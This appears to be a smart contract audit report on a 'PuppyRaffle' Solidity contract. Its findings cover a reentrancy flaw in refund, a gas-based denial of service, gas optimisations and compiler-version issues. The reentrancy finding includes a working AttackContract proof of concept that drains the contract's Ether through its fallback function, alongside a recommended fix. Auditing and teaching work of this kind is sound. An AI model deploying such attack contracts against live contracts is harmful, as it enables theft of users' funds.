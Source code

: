 ## [H-1]

**Description:**  The `PuppyRaffle::refund` function does not follow CEI (checks, 
effects, interactions) and as a result allows participants to drain all the funds.
In the `PuppyRaffle::refund` function we first make an external call to the `msg.sender`
address and only after that we update the state of the `PuppyRaffle::players` array.

```javascript
   function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
@>        payable(msg.sender).sendValue(entranceFee);
@>        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
 ```

## Impact

If exploited, this vulnerability could allow a malicious contract to drain Ether from the PuppyRaffle contract, leading to loss of funds for the contract and its users.
```javascript
PuppyRaffle.players (src/PuppyRaffle.sol#23) can be used in cross function reentrancies:
- PuppyRaffle.enterRaffle(address[]) (src/PuppyRaffle.sol#79-92)
- PuppyRaffle.getActivePlayerIndex(address) (src/PuppyRaffle.sol#110-117)
- PuppyRaffle.players (src/PuppyRaffle.sol#23)
- PuppyRaffle.refund(uint256) (src/PuppyRaffle.sol#96-105)
- PuppyRaffle.selectWinner() (src/PuppyRaffle.sol#125-154)
```
## POC

1. User enters the raffle
2. Attacker sets up a contract with a fallback function that calls `PuppyRaffle::refund`
3. Attacker enters the raffle
4. Attacker calls `PuppyRaffle::refund` from their attack contract, draining the contract balance.



<details>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

import "./PuppyRaffle.sol";

contract AttackContract {
    PuppyRaffle public puppyRaffle;
    uint256 public receivedEther;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
    }

    function attack() public payable {
        require(msg.value > 0);

        // Create a dynamic array and push the sender's address
        address[] memory players = new address[](1);
        players[0] = address(this);

        puppyRaffle.enterRaffle{value: msg.value}(players);
    }

    fallback() external payable {
        if (address(puppyRaffle).balance >= msg.value) {
            receivedEther += msg.value;

            // Find the index of the sender's address
            uint256 playerIndex = puppyRaffle.getActivePlayerIndex(address(this));

            if (playerIndex > 0) {
                // Refund the sender if they are in the raffle
                puppyRaffle.refund(playerIndex);
            }
        }
    }
}
```
we create a malicious contract (AttackContract) that enters the raffle and then uses its fallback function to repeatedly call refund before the PuppyRaffle contract has a chance to update its state.
</details>


## Tools Used
Manual Review

## Recommendations
To mitigate the reentrancy vulnerability, you should follow the Checks-Effects-Interactions pattern. This pattern suggests that you should make any state changes before calling external contracts or sending Ether.

Here's how you can modify the refund function:

```javascript
function refund(uint256 playerIndex) public {
address playerAddress = players[playerIndex];
require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

// Update the state before sending Ether
players[playerIndex] = address(0);
emit RaffleRefunded(playerAddress);

// Now it's safe to send Ether
(bool success, ) = payable(msg.sender).call{value: entranceFee}("");
require(success, "PuppyRaffle: Failed to refund");


}
```

This way, even if the msg.sender is a malicious contract that tries to re-enter the refund function, it will fail the require check because the player's address has already been set to address(0).Also we changed the event is emitted before the external call, and the external call is the last step in the function. This mitigates the risk of a reentrancy attack.



## [M-1] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential denial of service (DoS), incrementing gas costs for future entrants

**description** The `PuppyRaffle::enterRaffle` loops through the `players` array to check for duplicates, however the longer the array, the costlier the function execution.

  ```javascript
  for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }

  ```

**impact** The gas costs for raffle entrants will greatly increase as more player enter the raffle, dicouraging later users from entering, and causing a rush at the start of a raffle.

**Prooof of Concept**

If we have 2 sets of 100 players enter, the gas costs will be as such:
- 1st 100 players:  ~ 6252048gas
- 2nd 100 players: ~ 18068138gas
  

# Gas

## [G-1] Unchanged state variables should be declared constant or immutable
Reading from storage is much more expensive than reading constants or immutable 
variables.
instances:
- `PuppyRaffle::raffleDuration` should be `immutable`
- `PuppyRaffle::commonImageUri` should be `constant`
- `PuppyRaffle::rareImageUri` should be `constant`
- `PuppyRaffle::legendaryImageUri` should be `constant`

## [G-2] When using `players.length` in a loop, we're reading from storage every time.
This can be very gas expensive if the array is big.
In this case you better cache this:

```diff
  function getActivePlayerIndex(address player) external view returns (uint256) {
+   uint256 playerLength = players.length; // read from storage once
-        for (uint256 i = 0; i < players.length; i++) {
+        for (uint256 i = 0; i < playerLength; i++) {
            if (players[i] == player) {
                return i;
            }
 ```

## [I-1]: Solidity pragma should be specific, not wide

Consider using a specific version of Solidity in your contracts instead of a wide version. For example, instead of `pragma solidity ^0.8.0;`, use `pragma solidity 0.8.0;`

- Found in src/PuppyRaffle.sol [Line: 2](src/PuppyRaffle.sol#L2)

	```solidity
	pragma solidity ^0.7.6;
	```

## [I-2]: Using an outdated version of Solidity is not recommended

solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks. We also recommend avoiding complex pragma statement.

**Recommendation**
Deploy with any of the following Solidity versions:

`0.8.18`
The recommendations take into account:

Risks related to recent releases
Risks of complex code generation changes
Risks of new language features
Risks of known bugs
Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.

please see Slither: https://github.com/crytic/slither/wiki/Detector-Documentation#incorrect-versions-of-solidity    for more information.

